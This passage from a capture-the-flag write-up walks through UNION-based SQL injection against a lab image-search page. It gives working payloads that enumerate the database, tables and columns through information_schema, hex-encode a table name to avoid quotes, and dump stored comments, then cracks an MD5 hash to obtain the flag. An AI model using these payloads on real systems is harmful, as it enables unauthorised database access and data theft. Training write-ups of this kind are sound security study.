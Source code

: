 Why -1? This is a trick. We use a negative or invalid ID (-1) so the original part of the query returns no results. This means the page will only display the results from our UNION SELECT (the numbers 1,2).

##### Step 3: Show the Database and Table Names
Once we know the number of columns and which ones are visible (e.g., columns 1 and 2), you can replace the numbers with database functions.
Since 1 OR 1=1 worked, it's likely MySQL or SQLite.
I use this Payload :
``` -1 UNION SELECT 1, database()-- ```

Output :    
```bash
ID: -1 UNION SELECT 1, database()-- 
Title: Member_images
Url : 1
```
In MySQL, all the table names are stored in the information_schema.tables table.
so ```-1 UNION SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database()-- ```

Output :
```bash
ID: -1 UNION SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database()-- 
Title: list_images
Url : 1
```
Of course. I always avoid using quotes because when I use them, the query returns no results.
So solution is to represent the table name list_images in hexadecimal format, and MySQL will understand it as a string without needing quotes
``` -1 UNION SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = database() AND table_name = 0x6C6973745F696D61676573-- ```

Output :
```bash
ID: -1 UNION SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = database() AND table_name = 0x6C6973745F696D61676573-- 
Title: id,url,title,comment
Url : 1
```
ok now show comments : 
``` -1 UNION SELECT 1, GROUP_CONCAT(comment) FROM list_images--  ```

Output : 
```bash
ID: -1 UNION SELECT 1, GROUP_CONCAT(comment) FROM list_images-- 
Title: An image about the NSA !,There is a number..,Google it !,Earth!,If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```
i try to crack md5 hash '1928e8083cf461a51303633093573c46' using ofc crackstation 
result : albatroz
flag its sha256 of albatroz : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
